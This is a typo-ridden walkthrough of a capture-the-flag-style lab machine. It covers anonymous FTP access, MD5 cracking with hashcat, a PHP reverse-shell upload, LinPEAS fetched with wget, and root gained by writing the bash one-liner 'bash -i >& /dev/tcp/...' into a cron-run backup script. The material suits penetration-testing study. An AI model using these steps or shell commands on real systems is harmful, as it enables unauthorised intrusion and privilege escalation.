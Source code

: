 
- 1 - Scan with Nmap
- 2 - notice port 21 is open and allow anonymous login (21/tcp open  ftp     vsftpd 3.0.3) (ftp-anon: Anonymous FTP login allowed)
- 3 - Login using "ftp 192.168.138.136", Anonymous, Anonymous"
- 4 - use "get note.txt" and cat it in our system. 
- 5 - there is a username andf password. The password looks like it is a hash. We can use "hash-identifier" to check.
- 6 - run "hash-identifier" on terminala and past the hash 
	- Result: HASH: cd73502828457d15655bbd7a63fb0bc8
	Possible Hashs:
	[+] MD5
	[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
- 7 - Search on google how to crack the hash: "hashcat crack md5 hash"
	- hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
	- https://www.4armed.com/blog/hashcat-crack-md5-hashes/
- 8 - use dirbuster& and find all the directoreies, specially the academy and log in useing the dehashed paswrord. 
- 9 - There is an upload feature that could be used to load malitions code. We can see the website is running php. the url is "my-profile.php".
- 10 - We search for a php reverse shell. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Change the ip to be our IP and run on the terminal "nc -nvlp 1234" before uploading the shell.
- 11 - Once we are inside we notice we are not root. We will need to do previlige escalation. We will use LinPeas to help us detenc what we can do. Search for linpeas (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and dowload linpeas.sh. Then on the dowload folder we will host a python server using "python3 -m http.server 80" and the we go to the /tmp directory in the vulnerable machine and dowload the linpeas.sh using "wget http://192.168.138.132/linpeas.sh" and turn the file executable using "chmod +x linpeas.sh" and run "./linpeas.sh"
- 12 - We notice thre is a passwrod on the config.php file "My_V3ryS3cur3_P4ss". Openning the file we see more information like username: grimmie. 
- 13 - We can try "cat etc/passwd" and we notice user grimmie is administrator. Knowing this we can try connecting using "ssh grimmie@192.168.138.136" and the passwrod on the file "My_V3ryS3cur3_P4ss".
- 14 - Inside we can try to list the processes running but nothing will be usefull for now. When this happens we can use a toll called "pspy" (https://github.com/DominicBreuker/pspy). This will list all the processes running in the machine. 
- We found the backup.sh is running every minute. 
	-  CMD: UID=0     PID=28705  | /bin/bash home/grimmie/backup.sh 
- 15- We can abuse this process and gain root access. We will search for a "bash reverse shell one liner" (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
- 16 - use "nano backup.sh" and past the code "bash -i >& /dev/tcp/192.168.138.132/8081 0>&1" (ctrl+k to delete lines in nano) with my ip and port and set up a "nc -nvlp 8081".  Wait untill the process runs again and you will be root. 
